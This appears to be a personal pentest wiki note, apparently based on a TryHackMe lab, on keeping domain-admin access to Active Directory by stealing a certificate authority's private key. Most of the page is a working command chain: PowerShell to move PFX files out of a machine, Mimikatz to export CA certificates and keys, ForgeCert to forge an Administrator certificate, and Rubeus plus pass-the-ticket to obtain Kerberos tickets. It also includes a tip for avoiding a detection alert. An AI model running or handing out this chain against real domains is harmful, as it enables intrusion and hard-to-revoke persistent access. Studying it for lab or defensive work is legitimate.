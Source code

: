 # Active Directory Persistence With Certificates

We the use of [[AD-Certificate-Exploitation]], leveraging certifications to become Domain Admins can be viable method of persistence as all that is required is a valid certificate used for client authentication. The certificate can be used to request a TGT. The certificate has to be revoked or expire for a failure state to occur, therefore potential persistent access by default for around 5 years. 

## Certificate Authority CA 

Steal the private key of the root CA's certificate to generate our own certificates. Blue can not revoke them as they were never issue by the CA and would require a CA rotation - all issued certificates would have to be revoked and new one reinstated! With [[Mimikatz-Cheatsheet]] or [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

The private key of the CA is stored on the CA server, if not protoect through Hardware Security Module (HSM) - a hardware-based protection method - it is protected by the machine Data Protection API (DPAPI).

Way to exfiltrate the certificates with PowerShell
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/administrator/LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx"))
```
Way to infiltrate a certificate with PowerShell
```powershell
$base64String = "<INSERT Base64 ENCODED PFX>"
# Convert the Base64 string back to bytes
$bytes = [System.Convert]::FromBase64String($base64String)

# Save the bytes to a file
Set-Content -Path "<YOUR PATH>\file.pfx" -Value $bytes -Encoding Byte
```

```powershell
# View CA Certificate on the DC 
# Some Certificate do not allow exporting the private key  
crypto::certificates /systemstore:local_machine
# Therefore use Mimikatz to generate a new certificate 
privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
# Exported certificates will be stored in both PFX and DER format to disk
```
Transfer both .pfx and .der certificate files to non domain machine for safe keeping and safer certificate generation.

Use SpectreOps's [ForgeCert](https://github.com/GhostPack/ForgeCert) to forge a Client Authentication certificate.
```powershell
# --SubjectAltName is User principle name UPN 
ForgeCert.exe --CaCertPath $exportedCAcertificate --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath $NewCertName.pfx --NewCertPassword Password123
```
Then use [[Rubeus-Cheatsheet]] to request a TGT using the certificate to verify that the certificate is trusted:
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```

Then [[Mimikatz-Cheatsheet]] to [[Pass-The-Ticket]]
```powershell
kerberos::ptt $ticket.kirbi
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)